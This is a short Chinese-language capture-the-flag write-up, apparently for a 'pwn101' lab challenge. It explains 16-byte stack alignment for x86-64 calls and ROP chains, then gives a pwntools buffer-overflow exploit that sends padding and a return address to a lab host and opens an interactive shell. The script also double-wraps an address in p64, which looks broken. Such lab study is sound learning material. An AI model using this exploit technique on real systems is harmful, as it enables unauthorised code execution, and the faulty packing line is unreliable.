 esp16字节对齐，指的是esp是16的倍数，或者说esp除16的余数为0（可以被16整除）

64位调用约定要求在调用指令之前栈必须是16字节对齐的，**指的是**在call 目标函数前esp就是16字节对齐，**而不是**call（执行push指令）后，esp是16字节对齐。

在ROP中指的是， **在ret(pop)前**要保证esp是16字节对齐，而不是ret后esp是16字节对齐，所以可以填充来保证esp的16对齐

![image-20231116230038538](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231116230038538.png)



构造payload

```python
#!/usr/bin/env python
from pwn import *
context.log_level= "debug"

#0x00000000004016db : pop rdi ; ret
#0x000000000040328f : /bin/sh


#sh = process('./pwn103')
sh = remote('10.10.72.113',9003)

payload = '3'

sh.sendline(payload)


ret_addr = p64(p64(0x000000000040158B))

payload =  b'A' * 40 + ret_addr  + p64(0x0000000000401554)

sh.sendline(payload)

sh.interactive()
```